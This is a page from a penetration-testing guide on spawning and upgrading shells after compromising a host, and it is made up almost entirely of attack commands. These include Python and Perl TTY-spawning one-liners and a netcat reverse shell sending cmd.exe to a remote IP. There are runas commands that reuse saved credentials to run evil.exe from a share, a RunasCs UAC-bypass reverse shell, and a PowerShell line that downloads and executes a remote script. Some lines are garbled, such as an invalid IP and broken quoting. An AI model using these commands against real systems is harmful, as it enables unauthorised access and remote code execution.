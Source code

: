 Spawning Shells · Total OSCP Guide
==================================



<https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html>

Non-interactive tty-shell
If you have a non-tty-shell there are certain commands and stuff you can't do. This can happen if you upload reverse shells on a webserver, so that the shell you get is by the user www-data, or similar. These users are not meant to have shells as they don't interact with the system has humans do.

So if you don't have a tty-shell you can't run su, sudo for example. This can be annoying if you manage to get a root password but you can't use it.

Anyways, if you get one of these shells you can upgrade it to a tty-shell using the following methods:

## Using python

    python -c 'import pty; pty.spawn("/bin/sh")'
    
    python3 -c 'import pty; pty.spawn("/bin/sh")'
    
ou

    python3 -c 'import pty; pty.spawn("/bin/bash")'


    python -c 'import pty; pty.spawn("/bin/bash")'
    export TERM=xterm
<Ctrl + Z>

    stty raw -echo; fg
    reset
    
    
## Script

    script /dev/null -c bash
<Ctrl + Z>
    
    stty raw -echo; fg
    reset
    
## Echo

    echo 'os.system('/bin/bash')'

## sh

    /bin/sh -i

## bash

    /bin/bash -i

## Perl

    perl -e 'exec "/bin/sh";'

## From within VI

    :!bash
    
    
## Windows cmd

    runas/user:acosta ".\nc64.exe -e C:\windows\system32\cmd.exe 192.168.0.165 8083"
    
    ### Runas

    cmdkey /list
    runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
    runas /savecred /user:Administrator "cmd.exe /k whoami"
    
    
    RunasCs.exe user password powershell -r 1192.168.0.76:4444 --bypass-uac
    
## windows powershell

    $password = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential('Administrator', $password)
    Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5:8000/shell2.ps1')" -Credential $cred